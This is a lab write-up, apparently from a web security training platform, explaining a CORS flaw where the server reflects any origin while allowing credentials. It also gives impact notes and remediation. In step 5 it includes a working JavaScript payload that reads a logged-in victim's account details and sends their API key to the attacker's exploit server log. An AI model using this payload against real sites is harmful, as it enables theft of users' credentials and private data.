



# Lab: CORS vulnerability with basic origin reflection

---

## 📌 Summary

The application contains a Cross-Origin Resource Sharing (CORS) vulnerability due to an insecure configuration that dynamically reflects and trusts any origin provided in the request headers.

Because the server also sets the `Access-Control-Allow-Credentials: true` header based on this reflected origin, an attacker can host a malicious script on an external domain to steal sensitive authenticated data (like API keys) from a victim's session.

---

## 🧾 Description

The vulnerability exists because the backend server automatically trusts any domain passed via the `Origin` HTTP header and echoes it back in the `Access-Control-Allow-Origin` response header.

When a feature like `/accountDetails` processes sensitive information, this basic origin reflection allows unauthorized third-party websites to make asynchronous JavaScript requests (`AJAX`) on behalf of logged-in users. Since credentials (cookies) are supported, the victim's browser automatically attaches their session token, allowing the attacker's script to read the response.

In this lab, we leverage this vulnerability by crafting a JavaScript payload that fetches the administrator's account details and exfiltrates their private API key back to our exploit server's log.

---

## 🔁 Steps to Reproduce

1. **Log In:** Access the application and log in using the provided credentials (`wiener:peter`).
2. **Analyze Traffic:** Go to your account page, capture the request to `/accountDetails` in Burp Suite, and send it to **Burp Repeater**.
3. **Test for Reflection:** Add a custom header to the request: `Origin: https://malicious-website.com`. Send the request and observe that the server responds with:
* `Access-Control-Allow-Origin: https://malicious-website.com`
* `Access-Control-Allow-Credentials: true`


4. **Navigate to Exploit Server:** Open the exploit server provided by the lab.
5. **Craft Payload:** In the **Body** section, enter the following JavaScript payload (make sure to replace `YOUR-LAB-ID` with your unique lab URL):

```html
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
</script>

```

6. **Deliver Exploit:** Click **Deliver exploit to victim** so the simulated administrator user visits your malicious page.
7. **Retrieve Key:** Click **Access log**, look through the request logs to find the administrator's exfiltrated data, decode the text, copy the API key, and submit it to solve the lab.

---

## 📸 Proof of Concept (PoC)

### 1. Logging In


### 2. Crafting the Malicious Script on Exploit Server


### 3. Victim's API Key Extracted in the Exploit Access Log


### 4. Submitting the Key to Solve the Lab


---

## 💥 Impact

An insecure CORS configuration with basic origin reflection poses a significant security risk:

* **Sensitive Data Theft:** Attackers can read private data, user profiles, or API tokens belonging to authenticated users.
* **Account Compromise:** Stolen API keys or tokens can grant full unauthorized access to user accounts.
* **Privacy Breach:** Personal identifiable information (PII) can be scraped seamlessly if a victim merely visits a malicious link while logged into the vulnerable application.

---

## 🛠️ Remediation

To mitigate CORS origin reflection vulnerabilities:

* **Avoid Wildcards/Dynamic Reflection with Credentials:** Do not dynamically read the `Origin` header from incoming requests and copy it directly into the `Access-Control-Allow-Origin` header when credentials are enabled.
* **Implement an Allowlist:** If cross-origin requests are absolutely necessary, validate the incoming `Origin` header against a strict, hardcoded server-side allowlist of trusted domains.
* **Treat Null Origin Carefully:** Avoid configuring the server to trust the `null` origin, as it can be easily spoofed using sandboxed iframes.
